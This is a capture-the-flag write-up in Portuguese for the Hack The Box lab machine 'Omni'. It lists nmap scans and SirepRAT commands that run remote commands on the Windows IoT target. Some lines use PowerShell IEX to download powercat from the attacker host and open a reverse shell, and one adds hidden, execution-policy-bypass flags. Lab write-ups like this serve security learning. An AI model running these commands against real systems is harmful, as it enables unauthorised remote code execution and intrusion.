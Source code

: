 Omni
========================

## Enumeration

    sudo nmap -sS -p 3,17,4567 omni.htb
    
    sudo nmap_enum omni.htb
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn omni.htb | tee nmap_udp_output.txt
    
    sudo nmap -p- -Pn -T5 -n omni.htb | tee nmap_fullportstcp_output.txt

![qownnotes-media-mLmhxQ](../../../media/qownnotes-media-mLmhxQ.png)

Dai eu fiz algumas pesquisas no google:

https://www.google.com/search?q=arcserve+discovery+exploit&sca_esv=598988451&rlz=1C1SQJL_pt-BRBR979BR979&sxsrf=ACQVn08oggGf4CXCvLGlEPZfSH8vYlgX5w%3A1705455327264&ei=3y6nZbDUD9fS1sQP8dWssA4&oq=port+29819+exploit&gs_lp=Egxnd3Mtd2l6LXNlcnAiEnBvcnQgMjk4MTkgZXhwbG9pdCoCCAAyChAAGEcY1gQYsAMyChAAGEcY1gQYsANIhRBQAFgAcAF4AZABAJgBAKABAKoBALgBAcgBAOIDBBgAIEGIBgGQBgI&sclient=gws-wiz-serp

https://vulners.com/myhack58/MYHACK58:62201993361

https://www.linkedin.com/pulse/remote-code-execution-sirep-windows-iot-tanzil-rehman

<https://github.com/SafeBreach-Labs/SirepRAT>

## Exploitation

Quando achei esse exploit eu rodei ele de várias formas por meio de tentativa e erro mesmo:



    git clone https://github.com/SafeBreach-Labs/SirepRAT.git
    cd SirepRAT/
    pip install -r requirements.txt
    ls
    python SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v

Quando eu notei que funcionou  esse exploit, eu dei continuidade somente com ele:

```
    cd SirepRAT/
    python SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\WindowsPowerShell\v1. 0\powershell.exe" --args " -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.11/powercat.ps1');powercat -c 10.10.14.11 -p 8082 -e powershell\""
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\SysWOW64\WindowsPowerShell\v1. 0\powershell.exe" --args " -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.11/powercat.ps1');powercat -c 10.10.14.11 -p 8082 -e powershell\""
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args " -c 'whoami'"
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\ipconfig.exe"
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args 
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args "-c whoami"
    python SirepRAT.py -h
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args " -NoP -NonI -W Hidden -Exec Bypass -c whoami"
```